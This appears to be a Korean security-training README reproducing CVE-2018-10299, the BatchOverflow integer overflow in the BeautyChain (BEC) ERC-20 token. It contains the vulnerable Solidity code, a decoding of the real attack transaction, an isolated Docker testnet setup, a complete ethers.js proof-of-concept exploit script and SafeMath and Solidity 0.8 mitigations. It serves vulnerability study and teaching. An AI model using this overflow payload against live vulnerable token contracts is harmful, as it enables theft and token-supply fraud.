



# CVE-2018-10299 — BEC Token BatchOverflow PoC
화이트햇 스쿨 4기 25반 - [양진은(@developer-commit)](https://github.com/developer-commit)

## 1. 취약점 요약

| 항목 | 내용 |
|------|------|
| **CVE ID** | CVE-2018-10299 |
| **취약점 명칭** | BatchOverflow (BEC Token Integer Overflow) |
| **영향 대상** | BeautyChain (BEC) ERC-20 스마트 컨트랙트 |
| **취약 컨트랙트 주소** | `0xC5d105E63711398aF9bbff092d4B6769C82f793D` (Ethereum Mainnet) |
| **취약 함수** | `batchTransfer(address[] _receivers, uint256 _value)` |
| **취약점 유형** | Integer Overflow (정수 오버플로우) |
| **CVSS v3 점수** | **7.5 (High)** |
| **발견 일시** | 2018년 4월 22일 |
| **공개 일시** | 2018년 4월 23일 |
| **실제 악용 여부** | 확인됨 — OKEx 등 주요 거래소 BEC 거래 즉시 중단 |
---

## 2. 취약 조건
### 2.1. 취약한 코드
https://etherscan.io/address/0xc5d105e63711398af9bbff092d4b6769c82f793d#code

```solidity
// BecToken.sol L255–L267
function batchTransfer(address[] _receivers, uint256 _value) public whenNotPaused returns (bool) {
    uint cnt = _receivers.length;
    uint256 amount = uint256(cnt) * _value;   // ← 오버플로우 발생 지점
    require(cnt > 0 && cnt <= 20);
    require(_value > 0 && balances[msg.sender] >= amount);  // ← amount=0 이므로 통과

    balances[msg.sender] = balances[msg.sender].sub(amount); // 0 차감
    for (uint i = 0; i < cnt; i++) {
        balances[_receivers[i]] = balances[_receivers[i]].add(_value); // 2^255 지급
        Transfer(msg.sender, _receivers[i], _value);
    }
    return true;
}
```

### 2.2. 공격 페이로드 분석
https://etherscan.io/tx/0xad89ff16fd1ebe3a0a7cf4ed282302c06626c1af33221ebe0d3a470aba4a660f

```
Function: batchTransfer(address[] _receivers, uint256 _value)

MethodID: 0x83f12fec
[0]:  0000000000000000000000000000000000000000000000000000000000000040
[1]:  8000000000000000000000000000000000000000000000000000000000000000
[2]:  0000000000000000000000000000000000000000000000000000000000000002
[3]:  000000000000000000000000b4d30cac5124b46c2df0cf3e3e1be05f42119033
[4]:  0000000000000000000000000e823ffe018727585eaf5bc769fa80472f76c3d7
```

```
MethodID: 0x83f12fec (batchTransfer 함수 시그니처)
[0]: _receivers 배열의 실제 데이터가 시작되는 오프셋 위치 (64바이트 지점)
[1]: _value (각 수신자에게 보낼 토큰 수량 = 2의 255승)
[2]: _receivers 배열의 길이 (수신자 수 = 2명)
[3]: 첫 번째 수신자 지갑 주소 (공격자 주소 1)
[4]: 두 번째 수신자 지갑 주소 (공격자 주소 2)
```
### 2.3 오버플로우 연산 상세
```
cnt    = 2
_value = 2^255 = 0x8000000000000000000000000000000000000000000000000000000000000000

amount = uint256(cnt) * _value
       = 2 * 2^255
       = 2^256
       = 0 (mod 2^256)   ← uint256 범위 초과, 오버플로우로 0이 됨
```

- `require(_value > 0 && balances[msg.sender] >= amount)` → `amount == 0`이므로 항상 통과
- 공격자 잔고에서 **0토큰** 차감
- 수신자 2인에게 각각 **$2^{255}$ 토큰** (≈ 5.79 × 10^76) 지급
- 토큰 총발행량(totalSupply)은 **변경되지 않음** — 회계 무결성 완전 파괴

즉 공격자는 uint256 이 담을수 있는 한계치 $2^{256} - 1$ 임을 이용해 _value를 $2^{255}$ 로 설정하고 수신자를 2명으로 하여 `uint256(cnt) * _value` 부분을 지나는 순간 $2^{256}$가 되며, 오버플로우가 발생하여, amount가 0이 되도록 설계하였다.

### SafeMath 미적용 이유

`batchTransfer` 함수 내 `amount = uint256(cnt) * _value` 연산은 `SafeMath.mul()`을 사용하지 않고 직접 곱셈을 수행한다. 동일 컨트랙트 내 `transfer()`, `transferFrom()` 등은 SafeMath를 사용하고 있어, `batchTransfer`만 누락된 **코드 리뷰 실패** 사례이다.

## 3. 환경 구성
```
platform: linux/amd64
```
node들의 아키텍쳐를 amd64로 고정해서 arm64 환경(애플실리콘 등)에서는 `취약한 BecToken 배포` 단계가 느릴 수 있다.

```
{
  "name": "batchoverflow-reproduction",
  "dependencies": {
    "ethers": "^5.7.2",
    "solc": "0.4.16"
  }
}
```
컨트랙트 조건을 다음과 같이 조정한다. 솔리디티의 `0.4.x` ~ `0.7.x` 버전에서는 모두 오버플로우 취약점이 존재하나, BEC Token에서 사용된 버전인 `0.4.16`로 고정한다. [(BecToken.sol L1)](https://etherscan.io/address/0xc5d105e63711398af9bbff092d4b6769c82f793d#code)
`ethers`는 중요하지 않기에, 작동이 확인된 버전으로 고정한다.

또한 다음이 요구된다.
- Docker Engine >= 20.10
- Docker Compose V2 (`docker compose` 명령어)
- 디스크 여유공간 >= 5 GB (Docker 이미지 + blockchain data)

```
"alloc": {
    "19e7e376e7c213b7e7e7e46cc70a5dd086daff2a": {
      "balance": "0x200000000000000000000000000000000000000000000000000000000000000"
    }
}
```

여기서 `19e7e376e7c213b7e7e7e46cc70a5dd086daff2a`의 지갑주소는 private_key를 `1111111111111111111111111111111111111111111111111111111111111111`로 고정했을때 나오는 주소이며 geness signer, miner unlock account, PoC attacker wallet 를 모두 겸하고 있다.

## 4. 재현 절차 및 실행결과
목표 구성 아키텍쳐는 다음과 같다.
```
┌─────────────────────────────────────────────────────────┐
│               isolated_eth_net (internal: true)          │
│                                                          │
│  ┌──────────┐   P2P    ┌────────────┐                   │
│  │ bootnode │◄────────►│ miner_node │  (Clique PoA 채굴) │
│  │ :30301   │          │            │                   │
│  └──────────┘          └────────────┘                   │
│       │                                                  │
│       │ P2P    ┌──────────┐  JSON-RPC  ┌─────────────┐  │
│       └───────►│ rpc_node │◄──────────►│exploit_client│  │
│                │ :8545    │  HTTP      │             │  │
│                └──────────┘            └─────────────┘  │
└─────────────────────────────────────────────────────────┘
         (호스트 포트 미노출, 외부 인터넷 완전 격리)
```

```
docker compose build exploit_client
```
하단에서 구성할 노드는 외부와 격리되어 있다. 따라서 외부 의존성이 요구되는 expolit 부분을 빌드한다.


```
docker compose up -d
```
로컬 이더리움 네트워크 노드를 구성한다.


```
docker compose run --rm exploit_client
```
expolit.js가 실행된다.


## 5. PoC 코드
```javascript
const solc = require('solc');
const fs = require('fs');
const { ethers } = require('ethers');

// ── 격리망 RPC 노드 연결 ──────────────────────────────────────────────────────
const RPC_URL = "http://rpc_node:8545";

// 프라이빗키 0x111...1 → 주소 0x19e7e376e7c213b7e7e7e46cc70a5dd086daff2a
const ATTACKER_PRIVKEY = "0x1111111111111111111111111111111111111111111111111111111111111111";

// 수신자 주소 - 임의 설정
const RECEIVER_1 = "0xb4d30cac5124b46c2df0cf3e3e1be05f42119033";
const RECEIVER_2 = "0x0e823ffe018727585eaf5bc769fa80472f76c3d7";

// CVE-2018-10299 공격 파라미터: _value = 2^255
const MALICIOUS_VALUE = ethers.BigNumber.from(
  "0x8000000000000000000000000000000000000000000000000000000000000000"
);

// ── RPC 준비 대기 (최대 60초) ─────────────────────────────────────────────────
async function waitForRpc(url, maxAttempts = 30) {
  const provider = new ethers.providers.JsonRpcProvider(url);
  for (let i = 1; i <= maxAttempts; i++) {
    try {
      await provider.getBlockNumber();
      console.log(`[+] RPC 노드 연결 성공`);
      return provider;
    } catch (_) {
      console.log(`[~] RPC 대기 중... (${i}/${maxAttempts})`);
      await new Promise(r => setTimeout(r, 2000));
    }
  }
  throw new Error("RPC 노드에 연결하지 못했습니다.");
}

function printToken(label, value) {
  console.log(`${label}: ${value.toHexString()}`);
  console.log(`${' '.repeat(label.length + 2)}(${value.toString()})`);
}

async function printBalances(contract, attackerAddr, receiver1, receiver2, title) {
  const [attackerBal, r1Bal, r2Bal, totalSupply] = await Promise.all([
    contract.balanceOf(attackerAddr),
    contract.balanceOf(receiver1),
    contract.balanceOf(receiver2),
    contract.totalSupply()
  ]);

  console.log("\n" + "=".repeat(55));
  console.log(` ${title}`);
  console.log("=".repeat(55));
  printToken("공격자 잔고", attackerBal);
  printToken("수신자1 잔고", r1Bal);
  printToken("수신자2 잔고", r2Bal);
  printToken("총발행량", totalSupply);
}

async function main() {
  console.log("=".repeat(55));
  console.log(" CVE-2018-10299 (BatchOverflow) PoC — 격리망 재현");
  console.log("=".repeat(55));
  console.log(`[i] 공격자 주소 : ${new ethers.Wallet(ATTACKER_PRIVKEY).address}`);
  console.log(`[i] 수신자 1    : ${RECEIVER_1}`);
  console.log(`[i] 수신자 2    : ${RECEIVER_2}`);
  console.log(`[i] _value      : ${MALICIOUS_VALUE.toHexString()} (= 2^255)\n`);

  // 1. RPC 준비 대기
  const provider = await waitForRpc(RPC_URL);
  const attacker = new ethers.Wallet(ATTACKER_PRIVKEY, provider);

  const network = await provider.getNetwork();
  console.log(`[+] 네트워크 ID : ${network.chainId}`);

  // 2. solc 0.4.16 오프라인 컴파일
  console.log("\n[*] BECToken.sol 컴파일 중 (solc 0.4.16)...");
  const source = fs.readFileSync('./contracts/BECToken.sol', 'utf8');
  const compiled = solc.compile(source, 1);

  if (compiled.errors) {
    const fatal = compiled.errors.filter(e => /^\w+Error/.test(e));
    if (fatal.length) {
      console.error("[!] 컴파일 오류:", fatal);
      process.exit(1);
    }
  }

  const contractName = ':BecToken';
  const abi = JSON.parse(compiled.contracts[contractName].interface);
  const bytecode = compiled.contracts[contractName].bytecode;
  console.log("[+] 컴파일 완료");

  // 3. 컨트랙트 배포
  console.log("[*] 취약한 BecToken 배포 중...");
  const factory = new ethers.ContractFactory(abi, bytecode, attacker);
  const contract = await factory.deploy({ gasLimit: 5000000 });
  await contract.deployed();
  console.log(`[+] 배포 완료! 컨트랙트 주소: ${contract.address}`);

  // 4. 공격 전 잔고 전체 출력
  await printBalances(
    contract,
    attacker.address,
    RECEIVER_1,
    RECEIVER_2,
    "공격 전 잔고 상태"
  );

  // 5. BatchOverflow 취약점 트리거
  console.log("\n[*] batchTransfer() 오버플로우 페이로드 전송 중...");
  console.log(`    cnt    = 2`);
  console.log(`    _value = 2^255 = ${MALICIOUS_VALUE.toHexString()}`);
  console.log(`    amount = cnt * _value (mod 2^256) = 0  ← 오버플로우!`);

  const tx = await contract.batchTransfer(
    [RECEIVER_1, RECEIVER_2],
    MALICIOUS_VALUE,
    { gasLimit: 3000000 }
  );

  console.log(`[*] 트랜잭션 전송 완료 (TX: ${tx.hash})`);
  const receipt = await tx.wait();
  console.log(`[+] 블록 ${receipt.blockNumber}에 기록됨`);

  // 6. 공격 후 잔고 전체 출력
  await printBalances(
    contract,
    attacker.address,
    RECEIVER_1,
    RECEIVER_2,
    "공격 후 잔고 상태"
  );

  console.log("\n" + "=".repeat(55));
  console.log(" [!] 공격 결과 요약");
  console.log("=".repeat(55));
  console.log(" ✓ _value(2^255) 토큰이 수신자에게 복제됨");
  console.log(" ✓ 공격자 잔고는 감소하지 않음 (amount=0 우회)");
  console.log("=".repeat(55));
}

main().catch(e => {
  console.error("[FATAL]", e.message);
  process.exit(1);
});
```

## 6. 대응 방안

이 취약점은 스마트 컨트랙트 내에서 곱셈 연산 시 결과값이 `uint256`의 최대 범위를 초과할 때 0으로 돌아가는 정수 오버플로우(Integer Overflow)를 방어하지 않아 발생했다. 다음과 같은 방법으로 완벽하게 예방할 수 있다.

### 6.1. SafeMath 라이브러리 필수 적용 (단기적 대책)
`batchTransfer` 함수 내의 곱셈 연산에 OpenZeppelin의 `SafeMath` 라이브러리(`mul`)를 적용해야 한다. `SafeMath`는 연산 전후의 값을 검증하여 오버플로우가 발생할 경우 트랜잭션을 즉시 안전하게 취소(`revert`)시킨다.

```solidity
// ❌ 취약한 코드 (직접 연산)
uint256 amount = uint256(cnt) * _value;

// ✅ 수정된 코드 (SafeMath 적용)
uint256 amount = _value.mul(uint256(cnt));
```

### 6.2. 최신 컴파일러 버전 사용 (장기적 대책)
Solidity `0.8.0` 버전부터는 언어 차원에서 정수 오버플로우 및 언더플로우를 기본적으로 검사하도록 컴파일러가 업데이트되었다.. 0.8.0 이상의 버전을 사용하여 컨트랙트를 컴파일하면, 별도의 `SafeMath` 라이브러리 없이도 오버플로우 발생 시 자동으로 패닉 에러를 발생시키고 실행을 중단한다.